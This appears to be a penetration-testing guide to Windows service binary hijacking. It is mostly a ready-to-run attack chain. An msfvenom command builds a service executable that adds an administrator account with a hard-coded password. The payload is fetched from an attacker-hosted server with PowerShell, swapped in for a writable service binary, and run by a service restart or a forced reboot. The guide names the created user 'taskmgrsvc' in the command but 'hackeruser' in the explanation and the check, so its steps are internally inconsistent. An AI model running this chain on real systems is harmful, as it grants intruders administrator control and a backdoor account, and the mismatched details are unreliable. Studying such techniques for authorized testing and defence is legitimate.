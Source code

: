 ## Service Binary Hijacking

### Overview
Each Windows service has an associated binary file. These binary files are executed when the service is started or transitioned into a running state. 

A misconfiguration, where a service binary has **Full Control (F)** permissions for low-privileged users (e.g., BUILTIN\Users), allows attackers to replace the binary with a malicious executable. When the service restarts or the system reboots, the malicious binary will execute with the privileges of the service (e.g., LocalSystem).

---

### Step 1: Identify a Vulnerable File
Start by running **WinRecon.ps1** to locate services with weak permissions:

1. **Option 2**: Run Custom Recon - (Select which functions to enable)
2. **Option 17**: Enumerate files and services for **weak permissions**.

This will provide a list of binaries or services that have insecure permissions, such as Full Control for low-privileged users (e.g., BUILTIN\Users).

Example Output:
```plaintext
[+] Service: <service>
    Binary Path:<service_path>
    BUILTIN\Users:(F)
```
```plaintext
[+] Service: BackupService
    Binary Path:C:\backups\backupsvc.exe
    BUILTIN\Users:(F)
```

In this example, the binary `C:\backups\backupsvc.exe` has **BUILTIN\Users:(F)** permissions, making it a candidate for exploitation.

---

### Exploitation Stage

#### Step 2: Generate a Malicious Executable
On our attacker machine (e.g., Kali Linux), use `msfvenom` to generate a malicious executable that creates a new user and adds it to the Administrators group:

```bash
msfvenom -p windows/exec CMD="cmd.exe /c net user taskmgrsvc Password123! /add && net localgroup administrators taskmgrsvc /add" -f exe-service -o adduser.exe
```

- **Payload**: `windows/exec` runs arbitrary commands.
- **Commands**: 
   - `net user taskmgrsvc Password123! /add`: Creates a new user `taskmgrsvc`.
   - `net localgroup administrators hackeruser /add`: Adds `hackeruser` to the Administrators group.
- **Output**: The malicious binary is saved as `adduser.exe`.

---

#### Step 3: Transfer the Malicious Binary to the Target Machine
Start a Python HTTP server to host the malicious binary:

```bash
python3 -m http.server 80
```

On the target machine, download the malicious executable using PowerShell:

```powershell
iwr -uri http://<attacker_ip>/adduser.exe -OutFile adduser.exe
```

---

#### Step 4: Replace the Service Binary
1. Backup the original binary:
   ```powershell
   move <service_path> <file_name>.bak
   ```
2. Replace it with the malicious binary:
   ```powershell
   move .\adduser.exe <service_path>
   ```

Example:
```powershell
move C:\backups\backupsvc.exe backupsvc.exe.bak
move .\adduser.exe C:\backups\backupsvc.exe
```

---

#### Step 5: Restart the Service
1. **Stop the Service**:
   ```powershell
   net stop <service_name>
   ```
2. **Start the Service**:
   ```powershell
   net start <service_name>
   ```

Example:
```powershell
net stop BackupService
net start BackupService
```

If the service cannot be restarted manually due to insufficient permissions:

1. **Check Service Startup Type**:
   ```powershell
   Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like '<service_name>'}
   ```
   Example:
   ```powershell
   Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'BackupService'}
   ```
   Output:
   ```plaintext
   Name           StartMode
   ----           ---------
   BackupService  Auto
   ```

2. **Reboot the System**:
   Verify that the current user has the `SeShutdownPrivilege`:
   ```powershell
   whoami /priv
   ```
   Example Output:
   ```plaintext
   SeShutdownPrivilege           Shut down the system                 Enabled
   ```

   Reboot the machine:
   ```powershell
   shutdown /r /t 0
   ```

---

#### Step 6: Verify Exploitation
After the reboot or service restart, reconnect to the target machine and check if the user `hackeruser` has been added to the Administrators group:

```powershell
Get-LocalGroupMember administrators
```

**Output**:
```plaintext
ObjectClass Name                      PrincipalSource
----------- ----                      ---------------
User        <system_name>\Administrator Local
User        <system_name>\hackeruser    Local
```

Example:
```plaintext
User        TARGETSYSTEM\Administrator Local
User        TARGETSYSTEM\hackeruser    Local
```

The output confirms the addition of `hackeruser` to the local Administrators group.

---

### Cleanup
To restore the original state of the service:
1. Delete the malicious binary:
   ```powershell
   del <service_path>
   ```
2. Restore the original binary:
   ```powershell
   move <file_name>.bak <service_path>
   ```
3. Restart the service:
   ```powershell
   net stop <service_name>
   net start <service_name>
   ```

Example:
```powershell
del C:\backups\backupsvc.exe
move backupsvc.exe.bak C:\backups\backupsvc.exe
net stop BackupService
net start BackupService
```

---

### Notes:
- This method relies on services running with high privileges (e.g., LocalSystem).
- Always back up the original binary to prevent accidental service disruption.
- Avoid rebooting production systems during penetration tests without authorization.

---

### References
- [HackTricks - Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)

---

**End of Service Binary Hijacking Exploit Guide**
